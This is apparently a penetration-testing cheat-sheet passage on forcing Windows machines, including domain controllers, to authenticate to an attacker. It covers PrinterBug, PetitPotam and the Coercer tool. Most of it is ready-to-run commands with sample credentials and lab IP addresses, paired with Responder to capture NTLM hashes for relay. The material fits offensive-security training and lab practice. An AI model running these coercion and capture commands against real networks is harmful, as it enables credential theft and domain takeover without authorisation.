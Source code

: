 ### <mark style="color:yellow;">MS-RPRN PrinterBug</mark>

It abuses the `RpcRemoteFindFirstPrinterChangeNotificationEx` method to force a target machine to send an **SMB NTLM authentication request** to the attacker-controlled machine. It coerces domain controllers into authenticating to the attacker.

```bash
# Trigger PrinterBug
python3 printerbug.py inlanefreight/zenpc$:'pass123'@172.16.117.3 172.16.117.30

# With SMB on receive DC01 hash
python3 Responder.py -I ens192  
```

### <mark style="color:yellow;">MS-EFSR PetitPotam</mark>

**PetitPotam** exploits methods from the **Encrypting File System Remote Protocol (MS-EFSR)**, specifically `EfsRpcOpenFileRaw` and `EfsRpcEncryptFileSrv`, to coerce SMB NTLM authentication from domain-joined machines, including domain controllers.

```bash
# Trigger
python3 PetitPotam.py 172.16.117.30 172.16.117.3 -u 'zenpc$' -p 'pass123' -d inlanefreight.local

# WebDav
python3 PetitPotam.py WIN-MMRQDG2R0ZX@80/files 172.16.117.60 -u 'zenpc$' -p 'pass123'

# Poison and get hash
python3 Responder.py -I ens192
```

### <mark style="color:yellow;">Coercer</mark>

[Coercer](https://github.com/p0dalirius/Coercer) is a powerful `authentication coercion` tool that automates the abuse of 17 methods in 5 `RPC` protocols.&#x20;

#### Scan Mode

```bash
Coercer scan -t 172.16.117.50 -u 'zenpc$' -p 'pass123' -d zencorp.local -v
```

#### Coerce Mode

The `coerce` mode abuses the `RPC` calls on a victim machine to coerce authentication to relay them over to relay targets.&#x20;

```
Coercer coerce -t 172.16.117.50 -l 172.16.117.30 -u 'zenpc$' -p 'pass123' -d zencorp.local -v --always-continue
```

## <mark style="color:yellow;">NTLM Relay Attacks Targeting Kerberos</mark>
